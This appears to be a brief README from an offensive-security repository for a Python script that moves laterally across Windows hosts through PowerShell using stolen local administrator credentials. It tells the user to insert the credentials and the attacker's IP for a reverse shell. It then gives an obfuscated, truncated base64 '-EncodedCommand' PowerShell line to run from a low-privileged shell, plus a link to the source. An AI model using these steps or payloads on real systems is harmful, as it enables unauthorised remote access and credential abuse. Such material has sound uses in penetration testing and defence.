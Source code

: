 # Name
Local Admin Lateral Movement (Via Powershell)

## Usage
```
# Useful when local admin creds are obtained but cannot RDP/PSEXEC/WINRM

# Edit lines 5-6 to be local admin creds, line 8 for attacker's IP for simple_ps_revshell
python ps_script.py

# From Low Privileged Interactive cmd.exe:
powershell.exe -NoProfile -NonInteractive -EncodedCommand JABwAD0AQwBvA...

```

## Source
https://github.com/n000b3r/PrivEsc/tree/main/Windows/local_admin_lateral
